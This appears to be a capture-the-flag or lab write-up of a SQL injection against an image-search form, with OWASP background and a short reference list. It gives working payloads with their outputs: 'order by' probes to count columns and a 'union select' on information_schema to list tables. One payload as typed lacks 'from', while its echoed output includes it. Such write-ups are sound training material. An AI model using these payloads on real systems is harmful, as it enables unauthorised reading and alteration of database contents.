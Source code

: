 # SQL injection

## vulnerability
> A SQL injection attack consists of insertion or “injection” of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to affect the execution of predefined SQL commands.
> 
> see https://owasp.org/www-community/attacks/SQL_Injection

## exploit
Home -> SEARCH IMAGE

1. see the form behavior<br/>
input -> output<br/>
`1` ->
`ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_`<br/>
`2` ->
`ID: 2 
Title: 42 !
Url : https://fr.wikipedia.org/wiki/Fichier:42`


2. error based SQL injection<br/>
input -> output<br/>
`1 order by 1--` ->
`ID: 1 order by 1-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_`<br/>
`1 order by 2--` ->
`ID: 1 order by 2-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_`<br/>
`1 order by 3--` -> ` ` (no output)<br/>
We can assume there are 2 columns extracted from table.


3. union based SQL injection<br/>
input -> output<br/>
`1 union select null, table_name information_schema.tables--`
->
`ID: 1 union select null, table_name from information_schema.tables-- 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
...
ID: 1 union select null, table_name from information_schema.tables-- 
Title: list_images
Url : `





## reference
* https://owasp.org/www-community/attacks/SQL_Injection

